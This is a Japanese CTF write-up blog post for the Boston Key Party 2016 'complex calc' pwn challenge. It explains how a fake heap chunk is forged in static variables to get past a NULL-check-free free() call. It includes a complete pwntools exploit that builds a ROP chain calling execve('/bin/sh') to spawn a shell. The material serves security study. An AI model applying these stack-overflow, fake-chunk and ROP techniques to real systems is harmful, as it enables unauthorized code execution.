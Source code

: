 ```yaml
---
layout: post
alias: "/blog/2017/03/07/boston-key-party-2016-complex-calc/"
date: "2017-03-07T15:50:38+09:00"
title: "Boston Key Party CTF 2016: complex calc"
tags: [ "ctf", "writeup", "pwn", "boston-key-party-ctf", "heap" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/complex-calc-5" ]
---
```


適当にそれっぽくしてたらいつの間にか解けた。

## problem

[Boston Key Party CTF 2016: simple calc](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/simple-calc-5)の続き。

バイナリはほぼ一致していて、以下だけが異なる。
これによりstackが壊れた後の`free(buf);`を`free(NULL);`にしてやり過ごすことができない。

```
$ diff <(objdump -d -M intel simple-calc) <(objdump -d -M intel complex-calc)
2c2
< simple-calc:     file format elf64-x86-64
---
> complex-calc:     file format elf64-x86-64
22761,22762c22761,22762
<   4156e0:	48 85 ff             	test   rdi,rdi
<   4156e3:	0f 84 af 00 00 00    	je     415798 <__cfree+0xc8>
---
>   4156e0:	0f 1f 00             	nop    DWORD PTR [rax]
>   4156e3:	66 0f 1f 44 00 00    	nop    WORD PTR [rax+rax*1+0x0]
```

## solution

addressが既知な適当な位置に`free`に渡せるchunkっぽい構造を作る必要がある。

書き込みが可能のそのような空間は計算の仮定で使われる以下の静的変数のみである。
ここに作る。

``` c
int add [3]; // 0x6c4a80
int divv[3]; // 0x6c4a90
int mul [3]; // 0x6c4aa0
int sub [3]; // 0x6c4ab0
```

まず先頭の`add`に$33$ (chunk size $32$byte + `PREV_INUSE` bit $1$)を書き込む。
次のchunkが位置することになる`divv`, `mul`, `sub`のあたりは、`PREV_INUSE`を真にするため適当な奇数で埋めておく。
これで通る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='complex-calc')
args = parser.parse_args()
context.log_level = args.log_level
elf = ELF(args.binary)

# int add [3]; 0x6c4a80
# int divv[3]; 0x6c4a90
# int mul [3]; 0x6c4aa0
# int sub [3]; 0x6c4ab0

# p = remote(args.host, args.port)
p = process(args.binary)
p.recvuntil('Expected number of calculations: ')
p.sendline('255')
def calc(op, x, y):
    p.recvuntil('=> ')
    p.sendline(str({ '+': 1, '-': 2, '*': 3, '/': 4 }[op]))
    p.recvuntil('Integer x: ')
    p.sendline(str(x))
    p.recvuntil('Integer y: ')
    p.sendline(str(y))
def write64(value):
    for z in [ u32(p64(value)[:4]), u32(p64(value)[4:]) ]:
        for x in range(0x100):
            y = (x - z) % 0x100000000
            if x >= 40 and y >= 40:
                calc('-', x, y)
                break
        else:
            assert False

write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(0x6c4a90) # free
write64(u64('AAAAAAAA'))
write64(1) # rbp

# write /bin/sh
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000 - 8)
write64(0x44db34) # pop rax ; ret
write64(u64('/bin/sh\0'))
write64(0x40dc26) # mov qword ptr [rdi + 8], rax ; ret

# sys_execve
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000)
write64(0x401c87) # pop rsi ; ret
write64(0)
write64(0x437a85) # pop rdx ; ret
write64(0)
write64(0x44db34) # pop rax ; ret
write64(59) # sys_execve
write64(0x4648e5) # syscall

# make chunk
calc('+', 40+33, -40)
calc('-', 41, 41)
calc('/', 41, 41)
calc('*', 41, 41)

p.recvuntil('=> ')
p.sendline('5')
time.sleep(1)
p.sendline('id')
p.interactive()
```
